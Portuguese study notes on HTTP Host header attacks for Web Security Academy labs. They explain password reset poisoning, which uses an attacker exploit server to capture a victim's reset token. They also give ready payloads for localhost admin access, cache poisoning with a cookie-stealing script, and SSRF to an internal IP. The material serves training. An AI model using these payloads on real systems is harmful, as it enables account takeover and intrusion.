 # Ataques de Host Header

Probabilidade: $${\color{red}alta}$$.

<br>

O melhor lugar para procurar esse tipo de ataque é na funcionalidade de resetar senha (forgot password).

Coloque o endereço do seu servidor de exploit no header **Host** e mude o username para o da vítima.

Em seguida, confira os logs para ver se você recebeu o token de reset.

<br>

Outros Headers possíveis:
```
X-Forwarded-Host
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
```

<br>

## Laboratórios

> [!IMPORTANT]  
> Esse é o Lab mais importante dessa seção.

**Basic Password Reset Poisoning**
```
Host: exploit-server.com
```

<br>
<br>

**Admin Panel from Localhost Only**
```
GET /admin HTTP/1.1
Host: localhost
```

<br>
<br>

**Double Host / Cache poisoning**
```
Host: 0adf00cc033d5f09c05b077d000200eb.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```

<br>
<br>

**SSRF**
```
GET /admin HTTP/1.1
Host: 192.168.0.170
```

<br>
<br>

**SSRF 2**
```
GET https://0a44007e03fb1d0cc0068900005000d1.web-security-academy.net HTTP/1.1
Host: 192.168.0.170
```
